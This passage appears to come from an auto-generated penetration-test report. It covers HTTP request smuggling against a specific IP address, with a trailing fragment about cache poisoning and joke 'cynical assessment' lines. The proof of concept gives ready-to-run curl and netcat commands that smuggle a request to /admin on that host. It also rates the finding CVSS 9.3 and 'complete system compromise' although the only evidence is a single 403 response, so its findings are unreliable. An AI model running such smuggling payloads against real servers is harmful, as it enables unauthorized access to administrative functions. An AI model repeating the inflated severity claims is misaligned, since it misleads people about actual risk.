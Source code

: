 #### 🎭 Cynical Assessment:
*"Cache poisoning successful - their cache is more toxic than social media"*

---

### 🎯 **VULNERABILITY #2: HTTP Request Smuggling** 

**Severity:** CRITICAL  
**CVSS Score:** 9.3  
**Attack Vector:** Protocol Smuggling  
**Technique:** HTTP Desync Attack  

#### 📋 Technical Details:
```
Payload: Transfer-Encoding: chunked\r\nContent-Length: 0
Response: HTTP 403 (Backend processing detected)
Confidence: 0.7 (High)
Impact: Complete system compromise possible
```

#### 🔥 Proof of Concept:
```bash
# HTTP Request smuggling exploit
curl -X POST \
  -H "Transfer-Encoding: chunked" \
  -H "Content-Length: 0" \
  --data-binary $'0\r\n\r\nGET /admin HTTP/1.1\r\nHost: 172.67.68.228\r\n\r\n' \
  http://172.67.68.228

# Advanced smuggling payload
cat << 'EOF' | nc 172.67.68.228 80
POST / HTTP/1.1
Host: 172.67.68.228
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
EOF
```

#### 💀 Impact Assessment:
- **Request Smuggling:** Bypass security controls and filters
- **Backend Access:** Direct access to internal services
- **Authentication Bypass:** Circumvent authentication mechanisms  
- **Admin Panel Access:** Potential access to administrative functions
- **Data Exfiltration:** Risk of sensitive data exposure

#### 🎭 Cynical Assessment:
*"HTTP smuggling successful - customs didn't check this payload"*

---
